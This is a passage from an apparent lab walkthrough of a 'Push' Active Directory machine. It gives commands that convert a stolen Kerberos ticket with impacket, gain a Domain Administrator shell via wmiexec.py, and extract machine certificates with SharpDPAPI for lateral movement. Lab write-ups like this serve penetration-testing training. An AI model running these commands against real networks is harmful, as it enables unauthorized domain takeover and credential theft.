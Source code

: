 Finally to use this ticket from a Linux host the ticket must be converted from kirbo to ccache format and import via an environment variable. This first step is to convert it from base64encoded kirbi format to ccache format. This can be done with ticketConverter.py from the impacket toolkit:
```bash
cat ticket.b64 | base64 -d > ticket
ticketConverter.py ticket ticket.ccache
```
![_install](/assets/img/VL-Push/25.png)


Next we can import to ticket into the corresponding evironment variable and use wmiexec.py to gain access as the Domain Administrator
```bash
export KRB5CCNAME=ticket.ccache
wmiexec.py -k -no-pass administrator@MS01.push.vl -shell-type powershell
```
![_install](/assets/img/VL-Push/26.png)

One thing I noticed during Domain Enumeration is that the Certificate Authority (CA) is installed on the MS01 machine. Because we are now Domain Admin we can forge a CA Certificate which we can then use to move laterally to the DC. Using SharpDPAPI I extracted the certificates:
```powershell
cmd /c C:\temp\SharpDPAPI.exe certificates /machine
```
